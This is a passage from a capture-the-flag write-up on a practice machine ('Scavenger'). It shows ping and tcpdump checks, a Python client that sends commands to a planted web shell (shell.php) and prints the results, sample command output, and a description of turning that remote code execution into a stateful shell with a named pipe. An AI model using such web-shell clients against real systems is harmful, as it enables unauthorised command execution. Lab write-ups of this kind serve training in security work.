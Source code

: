    --- 10.10.14.5 ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 23.107/23.107/23.107/0.000 ms
    

And see the it locally:

    
    
    root@kali# tcpdump -i tun0 -n icmp
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    07:22:56.316603 IP 10.10.10.155 > 10.10.14.5: ICMP echo request, id 13436, seq 1, length 64
    07:22:56.316662 IP 10.10.14.5 > 10.10.10.155: ICMP echo reply, id 13436, seq 1, length 64 
    

I’ll look at the IpTables rules in Beyond Root.

### Simple Shell

Given that I’ll be enumerating with just the RCE, I’ll script a shell to make
it easier:

    
    
    #!/usr/bin/env python3
    
    import requests
    from cmd import Cmd
    
    
    class Term(Cmd):
        prompt = "scavenger> "
    
        def default(self, args):
            resp = requests.get('http://sec03.rentahacker.htb/shell.php',
                    params = {"hidden": args}, proxies={'http':'http://127.0.0.1:8080'})
            print(resp.text)
    
    term = Term()
    term.cmdloop()
    

This will run commands, though there’s no state, so I can’t change
directories, or get a tty to run `su`:

    
    
    root@kali# ./scavenger-simple.py 
    scavenger> id
    uid=1003(ib01c03) gid=1004(customers) groups=1004(customers)
    
    scavenger> pwd
    /home/ib01c03/sec03
    

### Stateful Shell

In the way that I like to do unnecessary polishing of my access, I created a
stateful shell using the mkfifo technique I first [learned from
Ippsec](https://www.youtube.com/watch?v=k6ri-LFWEj4) to go from RCE to
stateful shell. I first implemented something like this in
[Stratosphere](/2018/09/01/htb-stratosphere.html#building-a-shell). The idea
is to create a pipe, `input`, and then `tail -f` that file so that any new
content written to it is immediately passed to `sh` and the results are passed
to another file. Then I’ll just have a thread constantly reading from that
file.
